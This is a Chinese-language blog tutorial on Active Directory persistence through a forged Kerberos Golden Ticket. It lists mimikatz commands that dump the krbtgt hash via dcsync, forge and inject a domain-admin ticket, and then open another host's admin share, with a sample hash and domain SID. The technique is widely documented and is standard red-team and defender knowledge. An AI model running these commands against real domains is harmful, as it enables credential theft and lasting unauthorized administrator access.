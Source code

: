 ```yaml
---
layout: post
title: Pass the Ticket——Goldenn Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。本文主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/golden%20ticket.jpg?raw=true) 图片来源于:https://image.slidesharecdn.com/3mnefd0ktnm25fuhevql-signature-3ee8f429e83aad7c58c04030239c498ebd8980c84258ad24441a38c6b7673977-poli-141010140847-conversion-gate02/95/bluehat-2014-the-attackers-view-of-windows-authentication-and-post-exploitation-25-638.jpg?cb=1412950380



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt密码的hash，则可以尝试伪造用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  

### \#0x01 获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID  
3、域名称  
4、域内机器普通用户权限

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eef769c3d770a7b68e71025b7cbc4e和域SID：S-1-5-21-1682317650-3676829891-3458760176  

### \#0x02 伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上完成域管权限的找回。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/have%20no%20tgt.jpeg?raw=true) 
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/have%20no%20permission_1.jpg?raw=true) 
3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  
![create tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/create%20tgt_1.jpg?raw=true) 
4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```
![import tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/import%20tgt_1.jpg?raw=true) 
5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/import%20success_1.jpg?raw=true) 

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Goldenn%20Ticket/success_1.jpg?raw=true) 

### \#0x03 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
